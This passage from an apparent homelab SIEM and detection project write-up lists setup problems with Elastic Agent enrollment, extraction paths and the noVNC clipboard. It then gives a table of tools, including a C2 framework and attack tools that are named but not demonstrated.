The self-signed TLS certificate used by Fleet Server requires the `--insecure` flag on every agent enrollment command — Windows, Linux, and the Fleet Server itself. This flag was missing from several install commands, causing enrollment to fail silently or with certificate validation errors. It is not prominently documented in the standard installation flow and must be added manually in any environment using self-signed certificates.

**6. Elastic Agent extracted to unexpected filesystem path**

Running `tar` as root from a non-home directory extracted the agent folder to the filesystem root (`/elastic-agent-9.5.3-linux-x86_64/`) rather than the current user's working directory. After `cd ~` the folder was no longer visible in the home directory. Used `find / -type d -name "elastic-agent-9.5.3*" 2>/dev/null` to locate the correct extraction path before proceeding.

**7. noVNC clipboard not shared with local machine**

Vultr's browser-based console (noVNC) does not pass through the local clipboard by default, making it impossible to paste long commands using Ctrl+V. Commands had to be pasted through the noVNC sidebar clipboard panel. For the Windows endpoint specifically, switching to a native RDP connection via Windows Remote Desktop Connection provided a dramatically better experience with full clipboard sharing.

---

## Tools & Technologies

| Category | Tools |
|---|---|
| SIEM | Elasticsearch 9.5.3, Kibana 9.5.3 |
| Agent Management | Elastic Fleet, Elastic Agent 9.5.3 |
| Endpoint Telemetry | Sysmon (olaf hartong config), Windows Defender event logs |
| C2 Framework | Mythic 2.4.36, Apollo agent, HTTP C2 profile |
| Attack Tooling | Kali Linux, Hydra, xfreerdp3 |
| Ticketing & Response | osTicket (open source), Kibana Webhook connector |
| Cloud Platform | Vultr (Optimized Cloud Compute, Seattle region) |
| Networking | Private VPC (172.31.0.0/24), cloud firewall groups |
| Operating Systems | Ubuntu 24.04 LTS, Windows Server 2022 Standard |
| Framework Reference | MITRE ATT&CK |

---

